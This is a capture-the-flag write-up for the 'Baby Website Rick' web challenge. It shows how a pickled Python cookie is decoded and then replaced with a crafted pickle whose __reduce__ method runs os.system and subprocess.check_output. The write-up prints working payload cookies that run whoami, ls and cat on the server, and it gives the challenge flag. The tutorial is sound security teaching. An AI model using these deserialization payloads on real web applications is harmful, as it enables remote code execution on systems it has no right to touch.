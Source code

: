 # Baby Website Rick

## Analysis

![](../../.gitbook/assets/image%20%2831%29.png)

All the references to **pickles** implies it's an **insecure deserialization** challenge. [`pickle`](https://docs.python.org/3/library/pickle.html) is a serialization format used in python.

If we check the cookies, we get the following:

```text
plan_b=KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu
```

Our guess is that this is a pickled python object, and decoding the base64 seems to imply that to us too:

```text
$ echo 'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu' | base64 -d
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

## Unpickling

Let's immediately try to unpickle the data, which should give us a feel for how data is parsed:

```python
from base64 import b64decode

import pickle

code = b'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu'

serum = pickle.loads(b64decode(code))
print(serum)
```

```text
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 7, in <module>
    serum = pickle.loads(b64decode(code))
AttributeError: Can't get attribute 'anti_pickle_serum' on <module '__main__' from 'deserialize.py'>
```

The error is quite clear - there's no `anti_pickle_serum` variable. Let's add one in and try again.

```python
code = b'KGRwMApT[...]'
anti_pickle_serum = 'test'
```

That error is fixed, but there's another one:

```text
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 8, in <module>
    serum = pickle.loads(b64decode(code))
  File "/usr/lib/python3.8/copyreg.py", line 43, in _reconstructor
    obj = object.__new__(cls)
TypeError: object.__new__(X): X is not a type object (str)
```

Here it's throwing an error because X \(`anti_pickle_serum`\) **is not a type object** - so let's make it a clas extending from `object`!

```python
# [imports]
class anti_pickle_serum(object):
    def __init__(self):
        pass
# [...]
```

And now there's no error, and we get a response!

```text
$ python3 deserialize.py 
{'serum': <__main__.anti_pickle_serum object at 0x7f9e1a1b1c40>}
```

So the cookie is the pickled form of a dictionary with the key `serum` and the value of an `anti_pickle_serum` class! Awesome.

## Exploitation

For an introduction to pickle exploitation, I highly recommend [this blog post](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). Essentially, the `__reduce__` dunder method tells pickle how to deserialize, and to do so it takse a **function** and a **list of parameters**. We can set the function to `os.system` and the parameters to the code to execute!

```python
from base64 import b64encode

import pickle
import os

class anti_pickle_serum(object):
    def __reduce__(self):               # function called by the pickler
        return os.system, (['whoami'],)

code = pickle.dumps({'serum': anti_pickle_serum()})
code = b64encode(code)
print(code)
```

Here we create the malicious class, then serialize it as part of the dictionary as we saw before.

```text
$ python3 final.py 
b'gASVLAAAAAAAAAB9lIwFc2VydW2UjAVwb3NpeJSMBnN5c3RlbZSTlIwGd2hvYW1plIWUUpRzLg=='
```

Huh, that looks nothing like the original cookie value \(which starts with `KGRwMApTJ3`\)... maybe we missed something with the `dumps`?

Checking out the [`dumps()`](https://docs.python.org/3/library/pickle.html#pickle.dumps) documentation, there is a `protocol` parameter! If we [read a bit deeper](https://docs.python.org/3/library/pickle.html#data-stream-format), this can take a value from `0` to `5`. If we play around, `protocol=0` looks similar to the original cookie:

```python
code = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
```

```text
$ python3 final.py 
b'KGRwMApWc2VydW0KcDEKY3Bvc2l4CnN5c3RlbQpwMgooVndob2FtaQpwMwp0cDQKUnA1CnMu'
```

Let's change the cookie to this \(without the `b''`\):

![](../../.gitbook/assets/image%20%2834%29.png)

As you can see now, the value `0` was returned. This is the return value of `os.system`! Now we simply need to find a function that returns the result, and we'll use `subprocess.check_output` for that.

{% hint style="danger" %}
For reasons unknown to me, python3 pickles this differently to python2 and doesn't work. I'll therefore be using python2 from now on, but if anybody know why that would happen, please let me know!
{% endhint %}

```python
return subprocess.check_output, (['ls'],)
```

Now run it

```text
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYXRwNQpScDYKcy4=
```

And input it as the cookie.

![](../../.gitbook/assets/image%20%2833%29.png)

As can now see that there is a `flag_wIp1b` file, so we can just read it!

While it's tempting to do

```python
return subprocess.check_output, (['cat flag_wIp1b'],)
```

`subprocess.check_output` requires a **list** of parameters \(as we see here\) and the filename is a separate item in the list, like so:

```python
return subprocess.check_output, (['cat', 'flag_wIp1b'],)
```

```text
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu
```

And boom - we get the flag!

![](../../.gitbook/assets/image%20%2832%29.png)

`HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}`

